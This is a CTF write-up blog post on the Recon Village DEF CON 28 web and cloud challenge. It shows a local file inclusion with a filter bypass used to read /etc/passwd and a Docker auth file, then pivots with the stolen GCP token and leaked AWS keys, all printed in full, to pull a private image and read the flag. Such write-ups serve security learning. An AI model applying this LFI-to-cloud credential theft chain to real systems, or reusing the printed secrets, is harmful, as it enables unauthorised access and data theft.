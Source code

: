 ```yaml
---
layout: post
title: 'Recon Village CTF @ DC28 - Hybrid Awesome App Challenge'
date: '2020-08-10T00:00:00.000-00:00'
author: Keramas
tags: [ctf, defcon28, defconsafemode, reconvillage]
---
```


With so much content this year for Defcon 28, I placed all my focus on the Red Team Village CTF, but my teammate Altezza spent some time looking at the Recon Village CTF during some downtime on Friday and hit me up for some help with an interesting web/cloud challenge.

<img src = "/assets/images/reconvillagedc28/hybridawesomeapp.png">

The application is quite bare, and inputting anything into the box appears to do nothing, but we can see the following parameter which just smells like LFI.

```
http://159.65.106.65/index.php?file=test
```

Inspecting the source code reveals a couple of clues--namely that this application is based on a Docker image hosted on Gcloud.

```html
    <center>
        <h1>Hybrid Awesome App</h1>
        <!-- Built with love using Docker -->
        <form action="/index.php" method="GET">
            <input type="text" name="file">
        </form>

            </center>
    </body>
</html>

[SNIP]
<!-- Golden docker image hosted in gcr.io/recon-285218/recon-code -->
```

After messing around with the file parameter, it was indeed susceptible to LFI through a simple WAF/validation bypass:

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././etc/passwd
```

<img src = "/assets/images/reconvillagedc28/lfi.png">

Based on the clues in the source code, since it is not possible to retrieve the golden Docker image without authentication, it is a good bet that the LFI is the way to get this data. 

A good clue is also present on the /info.php page:

<img src = "/assets/images/reconvillagedc28/rtfm.png">

This is definitely a hint to read about GCR Docker authentication, which points to the fact that the authentication key should be in `.docker/config.json`. Looking at the `/etc/passwd` entry, we have the Automator user which is used for Ansible, GCR, and other things, so their home directory is a good candidate. Using the LFI to test this out, it was possible to retrieve the auth file.

```
http://159.65.106.65/index.php?file=..././..././..././..././..././..././home/automator/.docker/config.json
```

<img src = "/assets/images/reconvillagedc28/gcloud.png">

Now that the config.json is in our possession, it is possible to authenticate to Gcloud:

```
gcloud auth activate-service-account --key-file config.json

Activated service account credentials for: [recon-container@recon-285218.iam.gserviceaccount.com]
```

You can then print out the token, and pass it to Docker in order to login.

```
gcloud auth print-access-token

ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO
```

```
 docker login -u oauth2accesstoken -p "ya29.c.KpYB1wcWhYrCYdx32EhocOMjGFl37QzHAwsaTblYBN6IKBuuD06g7uZMf2ZZKC4q1mFBaK5NZEUlNCa4hmN4znB4UD3nk2nJbcmQwMta7mtot_F26gH1h0OYr4Gp2_9tuO4FjsJzkHWVjmkB4hjcyKZ7PvXtH1SllKRCE43gQXofzGwVGnyI1FrmO3kVAntpndVgxODMk8mO" https://gcr.io/recon-285218/recon-code
```

Now that we are authenticated, the Docker image can be pulled:

```
docker pull recon-285218/recon-code
```

Hopping into the image with `docker run -it <image> sh`, there was an `app` folder containing a git repo.

Using `git log` we can see the change history which mentions env variables, which can contain keys for AWS or other key data.

```
commit 645228975ee876d1ca451e1876967648fffb5157 (HEAD -> master)
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:25:27 2020 +0200

    Final code release

commit d8d2254968636cc74bf6b0eb55c08db1d9586e1c
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:46 2020 +0200

    updated the codebase

commit 2db6437f13ad2a547fb4e25b4982b3e14ecc08a6
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:24:04 2020 +0200

    Added env variables

commit 0ebc9223e6d406d79870988fae77b2c7f0f5a856
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:08 2020 +0200

    Added docs

commit b2bfab33a39900021900b0c59e760918bc00ded2
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Sun Aug 2 20:23:00 2020 +0200

    Added the main code
```
Using `git diff` on the commit for the variables (2db6437f13ad2a547fb4e25b4982b3e14ecc08a6), we get a pair of AWS credentials.

```
diff --git a/.env b/.env
deleted file mode 100644
index f8b4175..0000000
--- a/.env
+++ /dev/null
@@ -1,3 +0,0 @@
-[default]
-aws_access_key_id = AKIAXMXLEAVVDDJAANDD
-aws_secret_access_key = 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
diff --git a/README.md b/README.md
index 3d7addf..0f47c02 100644
--- a/README.md
+++ b/README.md
@@ -1,3 +1,9 @@
 # Ubercool Service
 
 This is an ubercool service. Written in Golang!
```

Now taking these keys and using it with aws-cli tools, we can query AWS to determine what these credentials are for.

```json
aws sts get-caller-identity
{
    "UserId": "AIDAXMXLEAVVNPZ2QUKVR",
    "Account": "508372977002",
    "Arn": "arn:aws:iam::508372977002:user/read-param"
}
```

Looking at the "read-param" username, it's a good bet that this key pair had some kind of read privileges for parameters in AWS SSM. Taking a look at the parameters present reveals  "/prod/ctf/flag".

```json
aws ssm describe-parameters --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "LastModifiedDate": 1596816202.755,
            "LastModifiedUser": "arn:aws:iam::508372977002:user/madhuakula",
            "Version": 3,
            "Tier": "Standard",
            "Policies": [],
            "DataType": "text"
        }
    ]
}
```
A final query can then be made to read the parameter, which at long last gives the flag!

```json
aws ssm get-parameters --name /prod/ctf/flag --region us-east-1
{
    "Parameters": [
        {
            "Name": "/prod/ctf/flag",
            "Type": "String",
            "Value": "ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9",
            "Version": 3,
            "LastModifiedDate": 1596816202.755,
            "ARN": "arn:aws:ssm:us-east-1:508372977002:parameter/prod/ctf/flag",
            "DataType": "text"
        }
    ],
    "InvalidParameters": []
}
```

```
echo ZmxhZzp7ZGU1MzE1NmIyYWEwNzQwNmEwMjZkODQxNThlMzI2N2F9 | base64 -d
flag:{de53156b2aa07406a026d84158e3267a}
```



